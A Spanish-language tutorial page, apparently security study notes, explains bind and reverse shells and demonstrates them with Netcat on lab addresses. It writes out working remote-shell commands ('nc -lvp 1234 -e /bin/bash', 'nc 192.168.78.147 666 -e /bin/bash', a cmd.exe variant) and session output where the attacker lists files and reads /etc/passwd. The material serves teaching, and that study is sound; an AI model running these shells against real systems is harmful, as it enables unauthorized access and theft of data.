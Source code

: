 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw.svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante.

<img src="../../../.gitbook/assets/file.excalidraw (3).svg" alt="" class="gitbook-drawing">

### Netcat

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven..........>

```

Un atacante podría usar el comando **`nc -lvp 1234 -e /bin/bash`** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **`1234`** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ).

#### C_reación de un shell de enlace utilizando Netcat._

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
```

> Windows **nc -lvp 1234 -e cmd.exe** Netcat.

En el sistema atacante (192.168.78.147), se utiliza el comando  para conectarse con la víctima**.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

_**Ejemplo 8-3**_ _: Conexión al Bind Shell mediante Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

Cuando el atacante se conecta, el mensaje resaltado en el ejemplo 8-4 se muestra en el sistema de la víctima.

_**Ejemplo 8-4**_ _: un atacante conectado a una víctima mediante un Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

El ejemplo 8-5 muestra cómo crear un shell inverso usando Netcat. En este caso, para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico (puerto 666 en este ejemplo).

_**Ejemplo 8-5**_ _: creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido (la víctima), puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante, como se demuestra en el Ejemplo 8-6.

_**Ejemplo 8-6**_ _: Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos, como se muestra en las líneas resaltadas en el Ejemplo 8-7.

_**Ejemplo 8-7**_ _: Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
